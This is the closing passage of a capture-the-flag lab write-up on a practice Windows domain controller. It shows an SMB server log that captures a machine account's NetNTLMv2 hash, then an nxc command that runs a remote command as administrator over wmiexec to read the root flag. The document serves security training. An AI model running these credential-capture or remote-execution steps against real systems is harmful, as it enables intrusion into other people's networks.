 Looking back to our SMB server.

```bash
$ impacket-smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,50282)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:85653f0136e179a68948a47c15c1b882:0101000000000000000456845d79da0159f5ac051abe9d80000000000100100049007a0063007000470057004b0065000300100049007a0063007000470057004b00650002001000440076004400410075006a0069004d0004001000440076004400410075006a0069004d0007000800000456845d79da0106000400020000000800300030000000000000000000000000400000b9643995525e3ddfc8fec193ac82610145ec78b328ded3e7412306348c1dbad70a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320035000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.10.169,50282)
[*] Remaining connections []
```

Remember that the `note.txt` file informed us that changes on this host are reverted every minute! So instead of validating the credentials or logging as `Administrator`, we can directly grab the `root.txt` flag 🚩!

{% code overflow="wrap" %}
```bash
$ nxc smb 10.10.10.169 -u administrator -p admin_pass -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\administrator:******** (Pwn3d!)
SMB         10.10.10.169    445    RESOLUTE         [+] Executed command via wmiexec
SMB         10.10.10.169    445    RESOLUTE         dca<REDACTED>6d5
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="DnsAdmins Exploitation" %}
{% embed url="https://adsecurity.org/?p=4064" %}
A great article explaining how to escalate privileges exploiting DnsAdmins.
{% endembed %}
{% endtab %}
{% endtabs %}
